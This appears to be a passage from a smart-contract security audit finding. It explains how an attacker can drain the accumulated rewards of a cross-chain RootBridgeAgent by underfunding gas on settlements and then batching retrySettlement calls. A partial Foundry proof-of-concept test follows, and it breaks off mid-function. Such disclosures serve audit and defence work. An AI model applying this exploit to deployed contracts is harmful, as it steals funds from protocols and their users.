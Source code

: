 ```solidity

        //Retry call with additional gas
        _performCall(settlement.callData, settlement.toChain);

        //Retry Success
        return true;
    }
```

An attacker will trigger some number of `callOutAndBridge(...)` invocations from a Branch Chain with some assets and extra data that will call `callOutAndBridge(...)` on the Root Chain to transfer back these assets to the originating Branch Chain (or any other Branch Chain), however, the attacker will set minimum `depositedGas` to ensure execution on the Root Chain, but insufficient gas to complete remote execution on the Branch Chain, therefore, failing a number of settlements. The attacker will then follow with a `callOutAndBridge(...)` from a Branch Chain that contains extra data for the `MutlicallRouter` for the `VirtualAccount` to call `retrySettlement(...)` for every Failed settlement. Since we will have multiple `retrySettlement(...)` invocations inside a single `anyExecute` at some point the `gasToBridgeOut` sent to each settlement will become `>` the deposited gas and we will be spending from the Root Branch reserves (accumulated rewards). The attacker will redeem his profit on the Branch Chain, since he gets a gas refund there, and there will also be a mismatch between `accumulatedRewards` and the native currency in `RootBridgeAgent` , therefore, `sweep()` will revert and any `accumulatedRewards` that are left will be bricked. 

### Coded PoC

Copy the two functions `testGasIssue` & `_prepareDeposit` in `test/ulysses-omnichain/RootTest.t.sol` and place them in the `RootTest` contract after the setup. 

Execute with `forge test --match-test testGasIssue -vv` 

Result - attacker starts with 1000000000000000000 wei (1 ether) and has 1169999892307980000 wei (>1 ether) after execution of attack (the end number could be slightly different, depending on foundry version). Mismatch between `accumulatedRewards` and the amount of WETH in the contract. 

Note - there are console logs added from the developers in some of the mock contracts, consider commenting them out for clarity of the output.

```solidity
function testGasIssue() public {
        testAddLocalTokenArbitrum();
        console2.log("---------------------------------------------------------");
        console2.log("-------------------- GAS ISSUE START---------------------");
        console2.log("---------------------------------------------------------");
        // Accumulate rewards in RootBridgeAgent
        address some_user = address(0xAAEE);
        hevm.deal(some_user, 1.5 ether);
        // Not a valid flag, MulticallRouter will return false, that's fine, we just want to credit some fees
        bytes memory empty_params = abi.encode(bytes1(0x00));
        hevm.prank(some_user);
        avaxMulticallBridgeAgent.callOut{value: 1.1 ether }(empty_params, 0);

        // Get the global(root) address for the avax H mock token
        address globalAddress = rootPort.getGlobalTokenFromLocal(avaxMockAssethToken, avaxChainId);

        // Attacker starts with 1 ether
        address attacker = address(0xEEAA);
        hevm.deal(attacker, 1 ether);
        
        // Mint 1 ether of the avax mock underlying token
        hevm.prank(address(avaxPort));
        
        MockERC20(address(avaxMockAssetToken)).mint(attacker, 1 ether);
        
        // Attacker aproves the underlying token
        hevm.prank(attacker);
```